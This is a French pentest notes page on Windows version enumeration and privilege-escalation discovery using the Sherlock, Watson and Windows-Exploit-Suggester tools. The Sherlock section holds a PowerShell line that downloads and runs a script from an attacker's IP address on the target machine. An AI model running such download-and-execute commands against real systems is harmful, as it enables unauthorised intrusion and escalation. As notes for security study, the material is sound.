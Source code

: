 ```yaml
---
public: true
---
```

## Version de Windows

```shell
# Si on souhaite les informations du système d'exploitation uniquement on pourra utiliser cette commande
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

On trouvera sur ce site la version exacte de Windows en fonction de la version du noyau remonté par les commandes suivantes

[Liste des Versions Windows](https://en.wikipedia.org/wiki/Windows_10_version_history)

## Escalade de privilèges

Selon la version du système d'exploitation, on pourra utiliser un des outils suivants pour trouver des exploits qui pourraient fonctionner sur la machine cible :

- Avant Windows Server 2016 : <https://github.com/rasta-mouse/Sherlock>
- Windows Server 2016 et supérieur : <https://github.com/rasta-mouse/Watson>

On peut aussi tenter <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### Sherlock (versions anciennes de windows)

** Remarque** : Sherlock affiche une liste de vulnérabilité avec un `VulnStatus` qui peut avoir la valeur `Not Vulnerable`. J'ai pu constater que même si il était marqué `Not Vulnerable`, certains exploits fonctionnent tout de même.... Cela peut donc être intéressant de tenter même d'autres exploits qui serait considérés comme "Non Applicable" (Attention à la stabilité du système !)

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://10.10.15.96/Sherlock.ps1'))
Import-Module .\Sherlock.ps1
Find-AllVulns
```

### Linux Exploit suggester

#### Installation

```shell
curl -LO https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
# dépendances
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
sudo tar -xf setuptools-2.0.tar.gz
pushd setuptools-2.0/
sudo python2.7 setup.py install
popd

sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
pushd xlrd-1.0.0/
sudo python2.7 setup.py install
popd
# mise à jour de la DB
sudo python2.7 windows-exploit-suggester.py --update
```

```shell
# exécuter sur la cible 
# > systeminfo > info.txt 
sudo python2.7 windows-exploit-suggester.py -d 2023-11-12-mssb.xls -i /tmp/info.txt   
```
